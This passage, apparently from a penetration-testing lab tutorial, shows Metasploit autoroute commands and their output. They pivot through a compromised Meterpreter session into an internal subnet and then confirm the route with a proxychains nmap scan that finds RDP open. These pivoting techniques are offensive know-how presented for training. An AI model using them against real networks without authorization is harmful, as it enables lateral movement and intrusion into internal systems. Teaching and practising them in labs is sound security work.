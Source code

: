 ### Creating Routes with AutoRoute
```
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

After adding the necessary route(s) we can use the -p option to list the active routes to make sure our configuration is applied as expected.

### Listing Active Routes with AutoRoute
```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

### Testing Proxy & Routing Functionality
```
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
```